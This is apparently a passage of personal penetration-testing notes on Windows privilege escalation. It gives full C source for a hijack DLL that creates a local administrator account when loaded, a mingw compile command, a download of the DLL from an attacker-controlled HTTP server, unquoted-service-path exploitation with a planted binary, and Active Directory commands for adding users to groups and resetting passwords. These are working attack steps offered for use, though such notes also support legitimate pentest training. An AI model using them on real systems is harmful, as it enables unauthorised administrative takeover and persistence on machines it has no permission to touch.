 	- Operation `CreateFile` 
	- Details `NAME NOT FOUND` 
	- With path to a folder you control (see `$env:path` for paths)
- Create a DLL with that name (eg. `mousepad myDLL.cpp`) 
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user john password123! /add");
  	    i = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Cross-compile with mingw32: `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`
- Run http server and pull DLL onto target system: `iwr -uri http://192.168.xxx.xx/myDLL.dll -Outfile myDLL.dll`
- Move DLL to folder you control, then restart service with `restart-service servicename`
- Check for new user: `net user`
## Unquoted Service Paths
Look for services that have spaces in the file path, and create an .exe with part of the path
``` Example
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

- Using CMD: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
- Test starting/stopping service: `start-service servicename` & `stop-service servicename`
- Test parts of the path to find write-permissions `(RX,W)` for the current user:
	- eg. `icacls "C:\"` then `icacls "C:\Program Files` then `C:\Program Files\Enterprise Apps`
	- If the `Enterprise Apps` folder is writeable, then rename `adduser.exe` to the partial path; eg. `Current.exe` for `C:\Program Files\Enterprise Apps\Current.exe`
	- Start or restart the service to execute the malicious binary in the path
### Privileges
- Check if user has admin access: `Find-LocalAdminAccess` (can take several mins)
- Check system for logged in users: `Get-NetSession -ComputerName files04 -Verbose`
	- Windows has updated since `v10.0 (16299)` (aka build 1709) to block `Net-Session`
	Alternatively:
	- Upload/Use Psloggedon.exe: `.\PsLoggedon.exe \\host04`
- Add a user to a group: `net group "Management Department" stephanie /add /domain
	- And remove: `net group "Management Department" stephanie /del /domain`
- Change the password of a user you control: `Set-ADAccountPassword -Identity "robert" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)`

